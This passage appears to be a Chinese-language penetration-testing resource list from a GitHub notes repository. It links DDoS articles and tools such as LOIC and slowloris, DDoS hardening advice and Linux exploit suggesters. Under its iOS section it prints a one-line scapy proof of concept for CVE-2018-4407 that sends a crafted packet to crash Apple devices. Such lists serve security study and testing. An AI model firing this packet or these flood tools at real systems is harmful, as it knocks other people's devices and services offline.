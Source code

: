 ### DDOS
**课程/文章**
- [DDoS攻防原理及实战](https://yq.aliyun.com/promotion/173)
- [创业耗费百万,为何DDoS如此要命Part 1](https://www.freebuf.com/articles/network/183182.html)
- [Memcached DRDoS攻击趋势分析](https://www.freebuf.com/articles/network/174180.html)
- [【技术分享】旧瓶装新酒——memcache作为DRDOS反射放大器](https://www.anquanke.com/post/id/87233)
- [浅析各类DDoS攻击放大技术](https://www.freebuf.com/articles/network/76021.html)
- [反射DDOS攻击防御的一点小想法](https://www.freebuf.com/column/138163.html)
- [如何简单的防御syn攻击](https://www.freebuf.com/column/132945.html)
- [浅谈拒绝服务攻击的原理与防御 (1) :普通拒绝服务攻击](https://www.freebuf.com/articles/network/126702.html)
- [浅谈拒绝服务攻击的原理与防御 (2) ：反射型DDOS](https://www.freebuf.com/news/127116.html)
- [浅谈拒绝服务攻击的原理与防御 (3) ：反射DDOS攻击利用代码](https://www.freebuf.com/articles/network/127218.html)
- [浅谈拒绝服务攻击的原理与防御 (4) ：新型DDOS攻击 – Websocket和临时透镜](https://www.freebuf.com/news/127533.html)
- [浅谈拒绝服务攻击的原理与防御 (5) ：NTP反射攻击复现](https://www.freebuf.com/articles/network/129288.html)
- [浅谈拒绝服务攻击的原理与防御 (7) ：用Python和C实现syn flood攻击](https://www.freebuf.com/articles/network/130357.html)

**报告**
- [黑镜调查：深渊背后的真相之「DDoS威胁与黑灰产业调查报告](./议题报告/FreeBuf/黑镜调查：深渊背后的真相之「DDoS威胁与黑灰产业调查报告」.pdf)

**工具**
- [JuxhinDB/synner](https://github.com/JuxhinDB/synner)
- [LOIC](https://sourceforge.net/projects/loic/)
- [llaera/slowloris.pl](https://github.com/llaera/slowloris.pl)
- [shekyan/slowhttptest](https://github.com/shekyan/slowhttptest)

**加固防御**
- [Linux下防御DDOS攻击的操作梳理](https://www.cnblogs.com/kevingrace/p/6756515.html)
- 一点建议,不要在主机层面上下大功夫,上云,上CDN,加钱,才是最好的解决办法.

---

## OS渗透
### IOS渗透
#### IOS_vul
**CVE-2018-4407**
- 文章
    - [远程打挂所有的 apple 设备 — CVE-2018-4407 分析](https://mabin004.github.io/2018/11/01/%E8%BF%9C%E7%A8%8B%E6%89%93%E6%8C%82%E6%89%80%E6%9C%89%E7%9A%84apple%E8%AE%BE%E5%A4%87-CVE-2018-4407-%E5%88%86%E6%9E%90/)

- POC | Payload | exp
    ```bash
    $sudo scapy
    >>send(IP(dst="192.168.1.151",options=[IPOption("A"*8)])/TCP(dport=8888,options=[(19, "1"*33)]))
    ```

---

### Linux渗透
#### Linux_vul
**漏洞查询**
- **工具**
    - [mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
    - [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
    - [InteliSecureLabs/Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)
